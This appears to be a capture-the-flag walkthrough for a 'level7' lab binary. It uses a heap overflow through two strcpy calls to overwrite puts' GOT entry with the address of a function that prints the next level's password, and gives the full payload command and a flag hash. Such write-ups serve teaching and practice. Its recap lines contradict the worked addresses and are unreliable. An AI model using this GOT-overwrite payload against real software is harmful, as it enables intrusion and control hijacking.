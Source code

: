 # level7

This level is similar to `level6`. The executable does the following :

- Four `malloc(8)` in a row
- `first[1]` points to the second
- `third[1]` points to the fourth
- A first `strcpy` ; copies `argv[1]` into `first[1]` (the second malloc)
- A second `strcpy` ; copies `argv[2]` into `third[1]` (the fourth malloc)
- Read `level8/.pass` into global variable `c`
- Run a `puts`

An `m` function prints `c`, which is what we want. We want to replace `puts`' address in the GOT with `m`.

To do this, we'll exploit the `strcpy` calls again.

## **The value**

Cutter reveals the address of `m`, our spoofed value : `0x080484f4`.

Formatted, this is `\xf4\x84\x04\x08`.

## **The addresses**

By running the executable in `gdb`, breaking after the `malloc`s and running `p/x $eax`, we get the addresses :

- `p1` is at `0x804a008`
- `var` is at `0x804a018`
- `p2` is at `0x804a028`
- `var` is at `0x804a038`

Let's draw the memory :

```
 0x0804a008                                          0x0804a018
[0x00000000   0x00000000]  0x00000000   0x00000000  [0x00000000   0x00000000]  0x00000000   0x00000000
 p1[0]        p1[1] -------------------------------> var1

 0x0804a028                                          0x0804a038
[0x00000000   0x00000000]  0x00000000   0x00000000  [0x00000000   0x00000000]  0x00000000   0x00000000
 p2[0]        p2[1] -------------------------------> var2
```

As thing stand, the `strcpy` will replace `var1` and `var2`.

Let's fill the memory with what's in memory at runtime :

```
 0x0804a008                                          0x0804a018
[0x00000001   0x0804a018]  0x00000000   0x00000000  [0x00000000   0x00000000]  0x00000000   0x00000000
 p1[0]        p1[1] -------------------------------> var1

 0x0804a028                                          0x0804a038
[0x00000002   0x0804a038]  0x00000000   0x00000000  [0x00000000   0x00000000]  0x00000000   0x00000000
 p2[0]        p2[1] -------------------------------> var2
```

## **The exploit**

Here's what we can do :
- Exploit the first `strcpy` to overwrite `p2[1]`
- Exploit the second `strcpy`, which now points to our spoofed address, with `m`'s value

The first `strcpy` starts at `var1` ; there's 20 bytes to `p2[1]`.

We can fill with 20 `A` before replacing `p2[1]` with the GOT address of `puts` : `0x08049928` :

```
 0x0804a008                                          0x0804a018
[0x00000001   0x0804a018]  0x00000000   0x00000000  [0x41414141   0x41414141]  0x41414141   0x41414141
 p1[0]        p1[1] -------------------------------> var1

 0x0804a028                                          0x0804a038
[0x41414141   0x08049928]  0x00000000   0x00000000  [0x00000000   0x00000000]  0x00000000   0x00000000
 p2[0]        p2[1]                                  var2
                |
                \----------> 0x08049928  (puts GOT address)
                            [0x08048406] ----------> puts()
```

Now, we can use `argv[2]` to put the `m` function's value in the GOT table and tricks the program :

```
 0x0804a008                                          0x0804a018
[0x00000001   0x0804a018]  0x00000000   0x00000000  [0x41414141   0x41414141]  0x41414141   0x41414141
 p1[0]        p1[1] -------------------------------> var1

 0x0804a028                                          0x0804a038
[0x41414141   0x08049928]  0x00000000   0x00000000  [0x00000000   0x00000000]  0x00000000   0x00000000
 p2[0]        p2[1]                                  var2
                |
                \----------> 0x08049928  (puts GOT address)
                            [0x08048406]             puts()
                                  |
                                  \----------> m()
```

Now, the executable should run `m()` when trying to run `puts()`.

## **The command**

To recap, we need :

```
argv[1] = AAAAAAAAAAAAAAAAAAA0x08049928
argv[2] = 0x08048406
```

Or, from the command line :

```
argv[1] = $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")')
argv[2] = $(python -c 'print("\xf4\x84\x04\x08")')
```

We run :

```
./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
```

## **The flag**

It works ! We get the `level7` flag :

```
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```